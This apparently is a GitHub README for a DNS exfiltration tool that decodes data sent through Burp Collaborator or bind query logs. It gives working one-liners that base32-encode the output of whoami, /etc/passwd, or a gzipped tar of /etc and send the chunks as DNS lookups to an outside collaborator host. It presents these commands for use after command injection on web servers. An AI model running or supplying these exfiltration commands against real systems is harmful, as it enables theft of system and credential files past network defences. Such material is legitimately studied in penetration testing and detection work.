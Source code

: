 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode exfiltrated data. 

Burp Collaborator allows appending hostnames to the provided address. For example: assume this is your collaborator address: `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

You may prepend a 'hostname' (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as base32-encoded data, see below). This allows exfiltration (including blind exfiltration) of data via DNS.

Here is the base32-encoded output from `whoami` exfiltrated via Burp Collaborator:

Command:

`a=$(whoami|base32|tr -d =);nslookup $a.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

Burp Collaborator response:

`O53XOLLEMF2GCCQ.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

![Screen Shot 2023-01-10 at 2 59 05 PM](https://user-images.githubusercontent.com/14989334/211650128-5d6a8562-3d64-4ec8-b530-bc47ae5a0db0.png)


`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee`:

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`), which is the most efficent native encoding utility (on most Linux/Unix systems) that is safe for DNS queries. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` adds any missing `=` characters back.

Hex encoding is also safe for DNS queries (but is less efficient). I may add hex support in the future. `base64` does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

Note that you will receive more reliable results by specifying the name server via `dig @`...

In the examples below: `<DNS Name>` is the random name provided by Burp Collaborator. For example: `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`.

### Exfiltrate a file:

```
cat /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the file:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a compressed file:

```
cat /etc/passwd | gzip - | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover/unzip the file:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked perfectly (but took a while). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the tar archive:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d > exfiltrated.tgz
```
